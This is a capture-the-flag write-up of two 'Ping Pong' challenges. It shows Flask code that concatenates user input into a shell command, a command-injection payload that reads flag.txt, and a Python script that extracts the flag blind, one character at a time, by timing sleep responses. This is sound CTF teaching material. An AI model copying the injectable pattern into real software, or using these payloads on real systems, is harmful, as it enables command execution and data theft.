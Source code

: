 ```
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output=output)
```
The solution is fairly straight forward, we have command execution as our input is added to a command without any sanitization.
Payload:
`fbi.gov;cat flag.txt`
Flag: `LITCTF{I_sh0uld_b3_m0r3_c4r3ful}`

## Ping Pong: Under Maintenance
The next iteration of this is a bit more challenging
```python
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')
```
This time we don't get any output and the server doesn't allow outbound connections (we tested with interactsh and curl, wget and ping to be sure!).
However we do have a way to extract information.
`;sleep 3` will delay the response by 3 seconds. So if we bruteforce the flag character by character and make it sleep when it matches we will have the flag.
Here's the script I made for this:
```python
import requests
import string
target = 'http://34.130.180.82:55943/'
pos = 0
flag = ''
while True:
	for x in string.printable:
		payload = ';bash -c \'flag=`cat flag.txt`;if [ ${flag:' + str(pos) + ':1} == "'+x+'" ]; then sleep 10; fi\''
		r = requests.post(target,data={'hostname':payload})
		if r.elapsed.total_seconds() > 10:
			print(f"Char: {x}")
			flag+=x
			if x=='}':
				exit(flag)
			break
		print(f"{pos} - {x} - {r.elapsed.total_seconds()}")
	pos+=1
```
Thankfully the flag wasn't too long: `LITCTF{c4refu1_fr}`
